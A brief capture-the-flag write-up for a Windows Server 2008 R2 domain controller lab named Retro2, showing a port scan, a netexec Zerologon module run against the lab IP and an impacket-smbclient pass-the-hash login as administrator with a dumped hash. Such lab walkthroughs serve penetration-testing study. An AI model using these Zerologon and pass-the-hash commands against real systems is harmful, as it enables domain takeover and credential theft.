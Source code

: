 
![](Retro_2_Cover.png)


## INFO

```
[*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

![](Public_Shares.png)



This is Server 2008 R2 , So its vulnerable to known exploits!

```
└─# nxc smb 10.10.69.152 -u guest -p '' -M zerologon
```

![](Zero_Logon.png)

![](Secrets_Dump.png)


```
└─# impacket-smbclient retro2.vl/administrator@10.10.69.152 -hashes :c06552bdb50ada21a7c74536
```


For Intended Way stay Tuned !


